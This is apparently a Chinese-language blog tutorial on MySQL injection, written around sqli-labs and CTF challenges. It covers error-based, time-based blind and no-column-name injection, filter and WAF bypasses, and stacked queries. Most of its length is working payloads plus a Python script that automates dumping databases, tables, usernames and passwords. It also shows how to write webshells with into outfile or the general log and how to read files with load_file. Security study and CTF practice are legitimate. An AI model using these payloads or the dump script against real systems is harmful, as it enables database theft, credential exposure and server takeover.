


mysql注入一些点的总结
常见函数
sql注入过程中需要用到一些函数来完成测试过程。
- mid()函数
mid(column_name,start[,length])
这个函数作用是从指定字段中提取出字段的内容。column_name：字段名start：开始位置length:长度
例子：

limit()
返回结果中的前几条数据或者中间的数据
1
SELECT * FROM TABLE LIMIT M,N;
m是指记录开始的index，从0开始，表示第一条记录。
n是指从第m+1条开始，取n条。
concat()、concat_ws()、group_concat()
concat()函数可以连接一个或者多个字符串concat(str1,str2,str3,....)
返回结果为连接参数产生的字符串，但是如果其中一个参数为NULL ，则返回值为 NULL。
concat_ws()concat_ws()(separator,str1,str2,...)
第一个参数是分隔符，
group_concat()
分组拼接函数group_concat([DISTINCT] 要连接的字段 [Order BY ASC/DESC 排序字段] [Separator '分隔符'])
Count() 聚集函数，统计元祖个数

rand() 产生一个0~1的随机数
floor() 向下取整
group by 根据想要的规则对结果进行分组
- Substr() 截取字符串
substr(a,b,c)
a 所要截取字符串
b 截取的位置
c 截取的长度

- Ascii() 返回字符串的ascii码
- Left()函数
left(string,num)得到字符串最左边指定个数的字符

- ORD()函数，此函数为返回第一个字符的ASCII码，可以和上面的函数进行组合使用。
ORD(MID(DATABASE(),1,1))>119–>检测database()的第一位ASCII码是否大于119，也即是‘r’


这两种方法都可以把数据库的名字猜出来。
报错。
双查询注入
什么是双查询注入呢？https://blog.csdn.net/lixiangminghate/article/details/80466257
看大佬的解释太深奥，粗俗的理解就是一个select语句里再嵌套一个select语句，将有用的信息显示在SQL的报错信息。
首先,理解四个函数/语句：Concat(),Rand(), Floor(), Count(),Group by clause
①concat()函数
我理解为组合，汇合函数将括号里的符号连接在一起。
将结果连在了一起。
②Rand函数
用来返回一个01之间的随机数，区间表示就是【0,1)。括号里为空时，随机产生数。
当括号里的参数固定时，随机数(随机数列)也是固定的。
让我们看一下随机数列
1 | select rand(3) from information_schema.columns limit 3; |
产生三列随机数。
对比一下还是不变。
③Floor()函数
Floor()函数时取整函数，当输入一个非整数，返回小于等于输入参数的最大整数。
④count()函数
用于统计行数。
⑤group by 语句
先看这句：
1 | select table_schema, table_name from information_schema.tables； |
加上group by语句后：
1 | select table_schema, table_name from information_schema.tables by table_schema； |
加上之后，数据明显少了很多的重复的。重复的数据库只显示一个，并且只显示数据库里的第一张表。
几个函数灵活运用，会有什么不异想不到的结果呢？
我们实践一下
①rand()函数和floor()函数结合使用。
1 | select floor(rand(5)*12) from information_schema.columns limit 5; |
由内到外逐个分析，rand(5)会随机产生5个不同的值，但是*12，就是将【0，1)扩大到【0，12)，floor函数就是取整了。
②count()函数和group by语句
1 | select table_schema, count(*) from information_schema.tables group by table_schema; |
他们的组合就是统计了每个数据库里有多少张表。
其原理就是：Mysql会建立一张临时表，有group_key和tally两个字段，其中group_key设置了UNIQUE约束，即不能有两行的group_key列的值相同。使用group by语句和count()函数的时候，mysql数据库会先建立一个虚拟表，当查询到新的键不在虚拟表中，数据库就会将其插入表中，如果数据库中已存在该键，则找到该键对应的计数字段并加1。
③双查询的核心语句(几个函数综合使用)
先看payload：select floor(rand(14)*2) c, count(*) from information_schema.columns group by c;
报错了，那为什么会报错？ 分析一下： SQL语句中用列c分组，而列c是floor(rand(14)2)的别名。 floor(rand(14)2)产生的随机数列，前四位是：1，0，1，0。
我们查询的时候，mysql数据库会先建立一个临时表，设置了UNIQUE约束的group_key和tally两个字段。当查询到新的”group_key键”不在临时表中，数据库就会将其插入临时表中，如果数据库中已存在group_key该键，则找到该键对应的”tally计数”字段并加1。
创建好临时表后，Mysql开始逐行扫描information_schema.columns表，遇到的第一个分组列是floor(rand(14)2)，计算出其值为1，便去查询临时表中是否有group_key为1的行，发现没有，便在临时表中新增一行，group_key为floor(rand(14)2)，注意此时又计算了一次，结果为0。所以实际插入到临时表的一行group_key为0，tally为1，临时表变成了：
Mysql继续扫描information_schema.columns表，遇到的第二个分组列还是floor(rand(14)2)，计算出其值为1(这个1是随机数列的第三个数)，便去查询临时表中是否有group_key为1的行，发现没有，便在临时表中新增一行，group_key为floor(rand(14)2)，此时又计算了一次，结果为0(这个0是随机数列的第四个数)，所以尝试向临时表插入一行数据，group_key为0，tally为1。但实际上临时表中已经有一行的group_key为0，而group_key又设置了不可重复的约束，所以就会出现报错。
知道了原理，就实战一下。以sql-lib/Less-5为例：
判断闭合点：
然后查询数据库： 构建payload:?id=-1’ union select 1,count(*),concat( (select database()),floor(rand()*2)) as a from information_schema.tables group by a –+

数据库就在报错的信息里显示出来了。
但是，因为是随机值，所以只会有50%的概率会报错。
相同的payload但显示正常。
有大佬说，可以通过修改rand()使用的种子来使其百分百报错,如下将rand()改为rand(1)，测试百分之百报错，即payload：**?id=-1’ union select 1,count(*),concat( (select database()),floor(rand(1)*2)) as a from information_schema.tables group by a –+**
但我发现，rand(1)并不会100%报错，反而我是试了几次都没有报错，只有4，11，14，15这几个数会100%报错，我也不知道什么原因，在这里留个悬念，希望大佬能解释一下。
我们来爆表,前面我们知道了当前数据库的为security，构造payload：**?id=-1’ union select 1,count(*),concat( (select table_name from information_schema.tables where table_schema=’security’ limit 3,1),floor(rand(4)*2)) as a from information_schema.columns group by a –+**
总共四张表，我们在第三张拿到了我们想要的。
知道了表名，看列值，构造payload：**?id=-1’ union select 1,count(*),concat( (select column_name from information_schema.columns where table_name=’users’ limit 4,1),floor(rand(4)*2)) as a from information_schema.columns group by a –+**
我通过修改limit X,1里X的值，在3，1的时候看到了password字段
在9，1的时候得到了用户名字段
开始拿用户名和密码，构造payload：**?id=-1’ union select 1,count(*),concat( (select username from users limit 0,1),floor(rand(4)*2)) as a from information_schema.columns group by a –+**
和**?id=-1’ union select 1,count(*),concat( (select password from users limit 0,1),floor(rand(4)*2)) as a from information_schema.columns group by a –+**
这里要注意用户名和密码的列数应改相对。
是不是jio着麻烦，附上Mochaaz大佬的python代码
1 | import requestsfrom bs4 import BeautifulSoupdb_name = ''table_list = []column_list = []url = '''http://192.168.1.158/sqlilabs/Less-5/?id=1'''### 获取当前数据库名 ###print('当前数据库名:')payload = '''' and 1=(select count(*) from information_schema.columns group by concat(0x3a,(select database()),0x3a,floor(rand(0)*2)))--+'''r = requests.get(url+payload)db_name = r.text.split(':')[-2]print('[+]' + db_name)### 获取表名 ###print('数据库%s下的表名:' % db_name)for i in range(50):payload = '''' and 1=(select count(*) from information_schema.columns group by concat(0x3a,(select table_name from information_schema.tables where table_schema='%s' limit %d,1),0x3a,floor(rand(0)*2)))--+''' % (db_name,i)r = requests.get(url+payload)if 'group_key' not in r.text:breaktable_name = r.text.split(':')[-2]table_list.append(table_name)print('[+]' + table_name)### 获取列名 ####### 这里以users表为例 ####print('%s表下的列名:' % table_list[-1])for i in range(50):payload = '''' and 1=(select count(*) from information_schema.columns group by concat(0x3a,(select column_name from information_schema.columns where table_name='%s' limit %d,1),0x3a,floor(rand(0)*2)))--+''' % (table_list[-1],i)r = requests.get(url + payload)if 'group_key' not in r.text:breakcolumn_name = r.text.split(':')[-2]column_list.append(column_name)print('[+]' + column_name)### 获取字段值 ####### 这里以username列为例 ####print('%s列下的字段值:' % column_list[-2])for i in range(50):payload = '''' and 1=(select count(*) from information_schema.columns group by concat(0x3a,(select %s from %s.%s limit %d,1),0x3a,floor(rand(0)*2)))--+''' % (column_list[-2],db_name,table_list[-1],i)r = requests.get(url + payload)if 'group_key' not in r.text:breakdump = r.text.split(':')[-2]print('[+]' + dump) |
花费几小时的注入，代码几秒就出来结果了。
用户名直接出来了，我要好好学python了，啥都不会。我们可以开始注入：
1 | ?id=1' union select 1,count(*),concat((select database()),floor(rand()*2))a from information_schema.columns group by a -- - |
可以知道数据库名是security。
然后获取表名：
1 | ?id=1' union select 1,count(*),concat((select group_concat(table_name) from information_schema.tables where table_schema='security'),floor(rand()*2))a from information_schema.columns group by a -- - |
然后就是字段和查询列：
就可以了。
Xpath报错注入
xpath报错注入可以使用的函数我知道的有两个，分别是：updatexml(),extractvalue()。
updatexml报错注入的用法如下：
1 | updatexml(1,concat(0x7e,database(),0x7e),1) |
extractvalue的用法如下：
1 | extractvalue(1,concat(0x7e,(select database()),0x7e)) |
之后extractvalue的注入方式就和平常的注入一样了。
同理updatexml也是这样注入。
利用double 数值类型超出范围进行报错注入
具体可以参考：
使用exp进行SQL报错注入
注入方式如下：
1 | ?id=1' union select (exp(~(select * FROM(SELECT USER())a))),2,3--+ |
只不过在这题，它并不会回显真正的user()，但是上面的文章里面有回显，可能是因为一些玄学原因吧，作为一个知识点了解了解。
利用bigint 溢出进行报错注入
可以参考：
基于BIGINT溢出错误的SQL注入
不过这里有个坑，就是这里
如果去查，会发现网上都是说查询成功返回值是0。这是不对的，其实真正的返回值就是你的查询结果。但是进行!操作的时候，实际上存在了类型转换。
因此并不是像网上所说的那样。
同样的，这题使用bigint报错也不会有那种我们预期的结果，可能也是版本或者玄学的问题。
NAME_CONST
利用数据的重复性。
使用的姿势：
1 | select * from (select NAME_CONST(version(),0),NAME_CONST(version(),0))x; |
不过这种方式过于鸡肋，因为如果传入NAME_CONST的参数不是常量，就会报错（不是报错注入的那种报错），似乎只有version()可以用
总结
报错注入的姿势实在是太多太多，这是一个大的总结：
1 | 1. floor + rand + group by |
还有很多方式没有提到
时间盲注
- sleep()函数
- benchmark函数
1 | BENCHMARK(count,expr) |
benchmark函数会重复计算expr表达式count次，所以我们可以尽可能多的增加计算的次数来增加时间延迟，如下：
可以看到通过重复计算延时了1.90s
- 笛卡尔积盲注
注入姿势
1 | mysql> SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C; |
利用and短路运算规则进行时间盲注。
- GET_LOCK盲注
get_lock函数官方文档中的介绍
可以看出文档中写的是我们如果已经开了一个session，对关键字进行了get_lock,那么再开另一个session再次对关键进行get_lock，就会延时我们指定的时间。
此盲注手法有一些限制，就是必须要同时开两个SESSION进行注入
1 | SESSION A |
同样的盲注利用手法。
- 正则
DOSRLIKE注入
延时原理，利用SQL多次计算正则消耗计算资源产生延时效果，其实原理是和我们的benchmark注入差不多的。
利用手法
1 | mysql> select * from flag where flag='1' and if(mid(user(),1,1)='s',concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',1); |
报错注入
正常的报错注入网上一搜是一大把的，所以下面讲的是几个比较的姿势。
- mysql列名重复报错
在mysql中，mysql列名重复会导致报错，而我们可以通过name_const制造一个列.
Name_const函数用法
1 | mysql> select name_const(version(),1); |
报错用法：
1 | mysql> select name_const(version(),1),name_const(version(),1);; |
不过这个有很大的限制，version()所多应的值必须是常量，而我们所需要的database()和user()都是变量，无法通过报错得出，但是我们可以利用这个原理配合join函数得到列名。
用法如下：
1 | mysql> select * from ctf_test a join ctf_test b; |
- xpath语法报错与整数溢出报错的区别
xpath报错注入中，我们经常用的语法有updatexml和extractvalue函数，同样是报错注入，那么在使用中有什么区别？
例子：第12届全国大学生信息安全竞赛全宇宙最简单的SQL
如果二者的区别认知不太清楚，很可能导致卡在这个点上
1 | mysql> select * from ctf_test where user='1' and 1=1 and updatexml(1,concat(0x7e,(select database()),0x7e),1); |
从上面的实验中可以得出如果在sql语句中有出现语法错误，则会直接报错，不会被and短路运算所影响，如果是大数溢出报错，则会遵循and短路运算规则。所以可以利用大数溢出这个问题结合前面的1=0的判断条件进行布尔盲注。
- 整数溢出报错函数
pow(),cot(),exp()
1 | mysql> select * from ctf_test where user='2' and 1=1 and cot(0); |
- 利用几何函数进行报错注入
几何函数进行报错注入，如polygon(),linestring()函数等，姿势如下：
1 | mysql> select * from ctf_test where user='1' and polygon(user); |
- 对于insert,delete,update三种操作的注入
对于select类型操作其实是最常见，最容易上手的，但insert,delete,update三种操作的注入也很重要，下面是总结的这三种注入的操作姿势。
报错注入
insert报错注入
1 | insert into ctf_test(`user`,`pwd`) value('1' or updatexml(1,concat(0x7e,(select database()),0x7e),1) or '','2'); |
update报错注入
1 | update ctf_test set user=1 where pwd='2' and updatexml(1,concat(0x7e,(select database()),0x7e),1) and ''; |
delete报错注入
1 | mysql> delete from ctf_test where user='1' and updatexml(1,concat(0x7e,(select database()),0x7e),1) and ''; |
时间盲注
insert类型
1 | mysql> insert into ctf_test(`user`,`pwd`) value('1' and sleep(3) and '','2'); |
delete和update也都是一样的，就不一 一列举了。
另类注入姿势以及对关键词过滤的绕过
order by盲注
题目例子：ISCC web5

当填入16进制的字符字典序小于flag中对应字母的字典序时，返回的是union插入的字符；当16进制的字符字典序大于flag中的对应字母的字典序时，返回的是flag字段。此种sql注入手法可以在小括号和列名被过滤时使用。
web5对应脚本：
1 | import requests |
- MySQL数据库的Innodb引擎的注入
在对应代码中过滤了information关键字，无法使用information_schema.tables以及information_schema.columns进行查找表和列名。
此时可以通过innodb引擎进行注入，在Mysql 5.6以上的版本中，在系统Mysql库中存在两张与innodb相关的表：innodb_table_stats和innodb_index_stats。
所以可以通过查找这两个表取代information的作用
1 | mysql> select * from flag where flag=1 union select group_concat(table_name) from mysql.innodb_table_stats where database_name=database(); |
- 无列名注入
看一下下面的payload的就会懂的，原理比较简单
- 异或注入
在and,or ,|,&&,||等符号被过滤的情况下，可以采用异或注入达到注入的目的。
1 | mysql> select * from ctf_test where user='2'^(mid(user(),1,1)='s')^1; |
- 同等功能替换
空格绕过：%0a,/**/.
关键函数过滤：
substr等价于left ,mid,substring
group_concat等价于concat_ws
- 逗号被过滤
针对逗号被过滤的情况有三种，第一种情况是union select 中的逗号被过滤掉，第二种情况是substr,mid这类截取字符函数中的逗号被过滤掉，第三种是limit 0,1中的逗号被过滤。
union select 逗号被过滤掉
利用join注入，payload如下
1 | mysql> select * from ctf_test where user='2' union select * from (select 1)a join (select 2)b; |
功能函数逗号被过滤
利用from...for...进行绕过
1 | mysql> select * from ctf_test where user='2' and if(mid((select user()) from 1 for 1)='r',1,0); |
limit中逗号被过滤
利用limit..offset进行绕过
1 | limit 9 offset 4`表示从第十行开始返回4行，返回的是`10,11,12,13 |
- 等于号被过滤
可以用like,regexp,between…and..,rlike进行代替，用法如下：
还有另外一种特殊的代替方法，利用locate,position,instr三种函数进行判断
用法如下：
1 | mysql> select * from ctf_test where user='2' and if(locate('ro', substring(user(),1,2))>0,1,0); |
- 堆叠注入
例子：强网杯2019随便注
payload如下形式
查询字段
1 | ';use information_schema;set @sql=concat('s','elect column_name from columns wher','e table_name="1919810931114514"');PREPARE stmt1 FROM @sql;EXECUTE stmt1; |
查询内容
1 | ;use supersqli;set @sql=concat('s','elect `flag` from `1919810931114514`');PREPARE stmt1 FROM @sql;EXECUTE stmt1; |
- load_file&into outfile
这两个函数在sql注入中是影响比较大的两个函数，如果能成功利用，即可getshell和读取任意文件,但作用很大，同样限制条件也很多。
into outfile
1.首先要知道网站的绝对路径(可从报错或者phpinfo()中获得)
2.拥有file权限
3.secure_file_priv限制。通过SHOW VARIABLES LIKE "secure_file_priv"查看信息
1 | mysqld --secure_file_priv=null(不允许导入导出) |
into outfile有四种写入文件的方式
通过union注入写入文件
1 | mysql> select * from flag where flag=1 union select '<?php phpinfo();?>' into outfile '/var/lib/mysql-files/2.php'; |
通过FIELDS TERMINATED BY写入文件
1 | mysql> select * from flag where flag=1 into outfile '/var/lib/mysql-files/3.php' fields terminated by 0x3c3f70687020706870696e666f28293b3f3e; |
FIELDS TERMINATED BY为在输出数据的字段中添加FIELDS TERMINATED BY的内容，如果字段数为1，则无法进行添加，也就是说这个的限制条件是起码要有两个字段的。
可以看到在一个字段的情况下无法添加我们的webshell。
通过LINES TERMINATED BY写入文件
LINES TERMINATED BY为在每个记录后都添加设定添加的内容，不受字段数的限制
1 | mysql> select * from flag where flag=1 into outfile '/var/lib/mysql-files/3.php' lines terminated by 0x3c3f70687020706870696e666f28293b3f3e; |
LINES STARTING BY写入shell
用法与LINES TERMINATED BY一样，payload如下
1 | mysql> select * from flag where flag=1 into outfile '/var/lib/mysql-files/4.php' lines starting by 0x3c3f70687020706870696e666f28293b3f3e; |
load_file
1.要求拥有file权限
2.知道文件所在绝对路径
3.同样受secure_file_priv限制
union注入进行load_file
效果如下：
1 | mysql> select * from flag where flag=1 union select load_file('/var/lib/mysql-files/4.php'); |
利用报错注入进行load_file
测试：
1 | mysql> select * from flag where flag=1 and updatexml(1,concat(0x7e,(select load_file('/var/lib/mysql-files/4.php')),0x7e),1); |
成功得到文件内容
利用时间盲注进行load_file
测试如下：
1 | mysql> select * from flag where flag=1 and if(mid((select load_file('/var/lib/mysql-files/4.php')),1,1)='<',sleep(3),1); |
成功延时3s，可配合脚本得到文件内容。
利用load_file扫描文件是否存在
1 | mysql> select * from flag where flag='' and updatexml(0,concat(0x7e,isnull(LOAD_FILE('/var/lib/mysql-files/4.php')),0x7e),0); |
通过is_null函数的返回值来确定，如果是1的话代表文件不存在，如果是0的话文件存在。此方法可配合burp进行敏感文件的FUZZ。
另类写读文件
dumpfile 官方文档如下：
危险变量导致getshell
在我们可连接上被攻击数据库时，我们可以通过select..into outfile..进行写shell，但如果secure_file_priv为NULL且不可更改时，我们就无法通过这种形式去getshell。除了这种写shell的方式还有一种通过日志去写shell的方式，操作如下:
1 | show variables like '%general%'; 查看配置信息 |
最终shell.php为我们的webshell
组合拳思考
我们在常规的注入中，流程应该就是查找数据库，查找表，查找字段，爆字段。
其实利用上面的方法，我们可以做操作来绕过条件过滤。
以Sqli-lab less-1为例
首先通过polygon函数进行报错
接着通过列重复来报错
通过以上步骤可爆出id,username,password三个字段，最终爆出字段内容。
同理，order by盲注也比较有用，在列名以及小括号被过滤的情况下就比较适合。
参考资料
http://www.zhutougg.com/2017/04/25/mysqlshu-ju-ku-de-innodbyin-qing-de-zhu-ru/
Bypass information_schema与无列名注入
Bypass information_schema
前言
聊一聊mysql在被waf禁掉了information_schema库后还能有哪些利用思路，这个想法是前一段时间想到的，这次趁着安全客活动就在这里记录一下吧~
实验环境
windows 2008 r2
phpstudy （mysql 5.7）
某waf（原因是该waf可以设置非法访问information_schema数据库）
前置任务
进行bypass之前先了解一下mysql中的information_schma这个库是干嘛的，在SQL注入中它的作用是什么，那么有没有可以替代这个库的方法呢？
information_schema
简单来说，这个库在mysql中就是个信息数据库，它保存着mysql服务器所维护的所有其他数据库的信息，包括了数据库名，表名，字段名等。
在注入中，infromation_schema库的作用无非就是可以获取到table_schema、table_name、column_name这些数据库内的信息。
MySQL5.7的新特性
由于performance_schema过于发杂，所以mysql在5.7版本中新增了sys schemma，基础数据来自于performance_chema和information_schema两个库，本身数据库不存储数据。
sys.schema_auto_increment_columns
开始了解这个视图之前，希望你可以想一下当你利用Mysql设计数据库时，是否会给每个表加一个自增的id（或其他名字）字段呢？如果是，那么我们发现了一个注入中在mysql默认情况下就可以替代information_schema库的方法。
schema_auto_increment_columns，该视图的作用简单来说就是用来对表自增ID的监控。
这里我通过security（sqli-labs）和fortest（我自建库）两个库来熟悉一下schema_auto_increment_columns视图的结构组成，以及特性。
1 | fortest库 |
可以发现，fortest库中的no_a_i_table并不在这里存在，然而其他非系统库的表信息全部在这里。根据前面介绍的schema_auto_increment_columns视图的作用，也可以发现我们可以通过该视图获取数据库的表名信息，也就是说找到了一种可以替代information_schema在注入中的作用的方法。
当然了，如果你说我们就是想想通过注入获取到没有自增主键的表的数据怎么办？通过翻阅sys中的视图文档，我又发现了两个视图也许可以实现这种需求？。
schema_table_statistics_with_buffer、x$schema_table_statistics_with_buffer
查询表的统计信息，其中还包括InnoDB缓冲池统计信息，默认情况下按照增删改查操作的总表I/O延迟时间（执行时间，即也可以理解为是存在最多表I/O争用的表）降序排序，数据来源：
performance_schema.table_io_waits_summary_by_table、sys.x$ps_schema_table_statistics_io、sys.x$innodb_buffer_stats_by_table
通过介绍的内容我们可以很容易的发现，利用“数据来源”同样可以获取到我们需要的信息，所以说这样的话我们的绕过information_schema的思路就更广了。加下来依次看一下各个视图的结构：
1 | sys.schema_table_statistics_with_buffer |
1 | sys.x$schema_table_statistics_with_buffer |
1 | 在从`数据来源`中随便选取一个视图为例（想查看视图详细结构等信息可自行测试） |
类似的表还有：mysql.innodb_table_stats、mysql.innodb_table_index都存放有库名表名
无列名注入
上面的方法的确可以获取数据库中表名信息了，但是并没有找到类似于information_schema中COLUMNS（字段）的视图，也就是说我们并不能获取数据？ 当然不是。
利用join
这个思路在ctf中比较常见吧，利用join进行无列名注入，如何利用到这里就显而易见了。
join-using注列名：
通过系统关键词join可建立两个表之间的内连接。通过对想要查询列名所在的表与其自身内连接，会由于冗余的原因(相同列名存在)，而发生错误。并且报错信息会存在重复的列名，可以使用 USING 表达式声明内连接（INNER JOIN）条件来避免报错。
join … using(xx)
简单的记录一下payload吧。以本文开头的环境为例，这里的waf会完全过滤掉information_schema库。
由于开启防护后会拦截正常注入，所以图中payload可能会有些乱，我会将简单的payload整理在下面，绕过防护的部分完全可以自由发挥。

爆表：
1 | schema_auto_increment_columns |

1 | schema_table_statistics_with_buffer |
其他的就不测试了，都是一个payload。
获取字段名
1 | 获取第一列的列名 |
1 | 获取次列及后续列名 |
利用普通子查询
实例：
正常的查询如下：
其中，列名为id、name、pass、mail、phone，使用union查询
1 | select 1,2,3,4,5 union select * from users; （前提是先尝试出sql中总共有几个列） |
可见数字与users中的列相应。
接着，就可以继续使用数字来对应列进行查询，如3对应了表里面的pass：
1 | select `3` from (select 1,2,3,4,5 union select * from users)a; |
当反引号 ` 不能使用的时候，我们可以使用别名来代替：
1 | select b from (select 1,2,3 as b,4,5 union select * from users)a; |
究其核心，就是给想要查询的表中的列名进行重命名，或加个序号。
[SWPU2019]Web1——无列名注入
这是一个留言板的二次注入与无列名注入
登录了之后在发布广告处存在sql注入漏洞，我们输入的内容在输入后没有漏洞，当我们发布广告后查看广告详情的时候，后台代码中又通过查询将我们输进去的内容查出来，就造成了二次注入，从而产生了注入。
(往往在这样的地方容易出现sql二次注入、xss、ssti等)
该题目环境过滤了空格，我们使用/**/来进行绕过，又过滤了or，因此我们无法使用 order by 以及information_schema这个库，因为过滤了注释符#，所以查询语句的最后我们要闭合单引号
当广告名为1’时报错
先来看看后台sql语句中的字段数，有TM的22列：
1 | -1'/**/union/**/select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22 |
这里最后的'22用来闭合sql语句中最后面的引号，为各种注释符都被过滤了。
可知2，3处为注入点。猜测语句
1 | select * from table_name where id = '$id' limit 0,1 |
我们来暴库，爆版本：
1 | -1'/**/union/**/select/**/1,database(),version(),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22 |
爆表：
因为information_schema被过滤了，我们要用sys.schema_auto_increment_columns等进行代替，但这里题目环境时buuctf的，他没有这个sys.schema_auto_increment_columns这个库，而且一般要超级管理员才可以访问sys。我们只能用innodb_table_stats。
1 | -1'/**/union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/database_name=database()),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22 |
发现俩表。
通过mysql.innodb_table_stats只能查出数据库和表名，查不出字段，所以之后我们还是要利用无列名注入。
猜想flag应该在users表中，我们先来猜猜users表中字段数：
1 | -1'/**/union/**/select/**/1,(select/**/1,2/**/union/**/select*from/**/users),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22 |
1 | -1'/**/union/**/select/**/1,(select/**/1,2,3/**/union/**/select*from/**/users),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22 |
可知users表中有3列，我们再用无列名注入将其把内容报出来：
1 | -1'/**/union/**/select/**/1,(select/**/group_concat(a,b,c)/**/from/**/(select/**/1/**/as/**/a,2/**/as/**/b,3/**/as/**/c/**/union/**/select/**/*/**/from/**/users)as/**/d),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,'22 |
得到flag。
(本题由于过滤了join，所以不能用join…using报错)
加括号逐位比较大小
当union select被过滤时，以上两种方法就都不能用了，我们要用加括号逐位比较大小的方法，将flag诸位爆出来，就像这样：
1 | 1&&((select 1,"f")>(select * from flag_is_here)) |
用布尔来进行判断。一般出现在布尔盲注的地方。
例题：
一个post的输入框，存在sql盲注注入（正确则回显Nu1L)。但是过滤了很多东西，or、and、union、information_schema、sys.schema_auto_increment_columns、join等都不能用了。我们要是用sys.schema_table_statistics_with_buffer来绕过information_schema，先把表给爆出来：
1 | import requests |
可以看到存在这两张表，下面就要实现无列名注入。但是union select被禁了，我们怎么做呢？？？
这里用到了ascii位偏移，关于ascii偏移的利用，可以看下面的例子
可以看到比较两个字符串的大小与字符串的长度是没有关系的，给定两个字符串，会各取两个字符串的各位字符ascii码来比较，不等式成立返回1，不等式不成立返回0。
这道题我们利用的就是这个特性，我们首先会从构造一个ascii从32到128的循环，与flag字符诸位一一进行对比，满足条件返回Nu1L，输出符合条件的ascii对应的字符，也就是找到了flag的第一个字符，以此类推，直到输出flag所有位的字符。
先通过加括号比较来判断这个表的列数，输入1&&((1,1)>(select * from f1ag_1s_h3r3_hhhhh))返回 Nu1L，说明有两列。
1 | import requests |
当我们匹配flag的时候，一定会先经过匹配到字符相等的情况，这一这个时候返回的是0，对应题目中的V&N，很明显此时的chr(char)并不是我们想要的，我们在输出1(Nu1L)的时候，匹配的是f的下一个字符g，而我们想要的是f，此时chr(char-1)='f'，所以这里要用chr(char-1)
关于payload中的
1 | (select 1,"{}")>(select * from f1ag_1s_h3r3_hhhhh) |
f1ag_1s_h3r3_hhhhh表的第一个字段可能是id啥的，跟咱们没有关系了
 wechat
wechat alipay
alipay